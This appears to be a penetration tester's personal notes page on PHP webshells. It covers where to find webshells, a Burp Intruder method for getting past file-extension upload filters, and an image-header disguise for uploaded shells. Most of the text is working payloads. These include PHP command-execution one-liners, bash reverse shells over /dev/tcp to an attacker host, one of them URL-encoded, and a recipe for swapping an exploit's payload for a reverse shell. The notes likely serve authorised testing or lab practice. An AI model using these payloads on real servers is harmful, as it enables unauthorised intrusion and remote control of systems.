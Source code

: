 
### asp, aspx, cfm, jsp, laudanum, perl, php

![[Pasted image 20220202133058.png]]

```bash - kali
cp /usr/share/webshells/
```


### Bypassing extension limits.
1. Capture and upload in Burp. 
2. Send to Intruder.
3. Dicitonary attack the extension (PHP example below).

```burpsuite - kali
php
php3
php4
php5
phtml
```

### PHP

#### wwolf

```bash - kali
wget https://raw.githubusercontent.com/WhiteWinterWolf/wwwolf-php-webshell/master/webshell.php
```

![[TechLexicon/Penetration Testing/Reference/7._Tools/Python#Server]]


#### php reverse shell payload

If you see php payload in exploit, replace with the following for reverse shell:

ORIGINAL:

```
payload = '<?php if($_POST["password"]=="' + password + '"){eval($_POST["cmd"]);}else{echo "<title>404 Not Found</title><h1>Not Found</h1>";}?>'
```

REPLACE WITH:
```php
payload = '<?php passthru("bash -i >& /dev/tcp/$KALI/80 0>&1"); ?>'
```

![[rlwrap]]


#### Pentestmonkey

```bash - kali
cp /usr/share/webshells/php/php-reverse-shell.php ./Shelly.php
```

https://github.com/pascal-gujer/webshellz

#### File upload webshells
Try saving this as 'Shelly.php' file, upload and access.

```php
<?php system($_GET[cmd]);?>
```

```php
<?php echo($_GET['cmd']);?>
```

```php
<?php echo shell_exec($_GET['cmd']);?>
```

![[rlwrap]]

```bash - target
bash+-c+'bash+-i+>%26+/dev/tcp/$KALI/443+0>%261'
```

```php
<?php exec("bash -c 'bash -i >& /dev/tcp/$TARGET/80 0>&1'");?>
```

#### GIF
Upload Shelly.php as a "GIF"

```
GIF8;
<?php echo system($_REQUEST['cmd']); ?>
```

#### File upload webshell

See also: [[5._File Upload]]

Set listener on port 4444 to output any connection to shelly.php.
```php
<?php echo exec('nc -lvnp 4444 > shelly.php 2>&1'); ?>.php
```

```php
<?php
if(isset($_REQUEST['cmd'])){
        echo "<pre>";
        $cmd = ($_REQUEST['cmd']);
        system($cmd);
        echo "</pre>";
        die;
}
?>
```

![[rlwrap]]

Upload and access Shelly.php.

```bash - kali
curl http://$TARGET/uploads/Shelly.php?cmd=id
```

Use nc to connect and transfer shelly.php.
```bash - kali
nc -nv IP 4444 < shelly.php
```

Visit file upload to connect reverse shell.

#### PHP reverse shell
Shelly.php
```php
<?php exec("bash -c 'bash -i >& /dev/tcp/$TARGET/80 0>&1'");?>
```

